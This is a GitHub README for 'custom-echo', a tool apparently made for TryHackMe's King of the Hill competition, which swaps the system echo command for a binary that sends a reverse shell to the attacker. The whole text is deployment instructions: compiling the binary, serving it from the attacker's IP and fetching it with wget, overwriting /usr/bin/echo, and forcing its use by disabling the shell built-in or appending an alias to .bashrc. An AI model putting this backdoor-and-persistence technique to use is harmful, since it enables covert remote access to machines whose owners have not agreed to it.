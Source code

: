 # custom-echo for KOTH | TryHackMe

--------------
> custom-echo, what does it do:<br />

1. This custom-echo will give you a rev-shell on a custom port you'll set, whenever somebody run echo command on the machine in which you planted your custom-echo you'll get a rev-shell on the port you'll set! :shipit:<br />

---------------
##### To Use It:<br />

  - first, let's clone the repo:<br />
     
     ```
     git clone https://github.com/hoodietramp/custom-echo
     ```

  - now let's `cd` into it:<br />

     ```
     cd custom-echo
     ```

  - now, we gotta compile it first (:<br />

     ```
     gcc -o custom-echo custom-echo.c
     ```

  - give it executable permissions:<br />
     
     ```
     chmod +x custom-echo
     ```
     
  - Now transfer it to the machine, in which you wanna use it:<br />

     - [ ] start a python server in your machine `python3 -m http.server 80`

     - [ ] on the koth machine, do `wget <your ip>/custom-echo; chmod +x custom-echo`

     - [ ] we are good to go... now let's change the echo on the machine with our custom-echo
          
           * `cp custom-echo /usr/bin/echo`

     - [ ] but it'll still not work, because echo is a shell-built-in, means it doesn't require any external binary to work in linux<br />
            
            So, to make it work, we can add this to the end of `.bashrc` file or We can disable shell-built-in echo by

             ```
             enable -n echo
             ```
            
            Or Run this:
              
              ```
              echo "alias echo='/usr/bin/echo'" >> ~/.bashrc
              ```
     - [x] Now we're ready to get our rev-shell. Let's test it < 3

-----------------
##### Testing custom-echo:<br />

![image](images/echo.png)

![image](images/nc.png)

------------------

Thanks To Holmes < 3
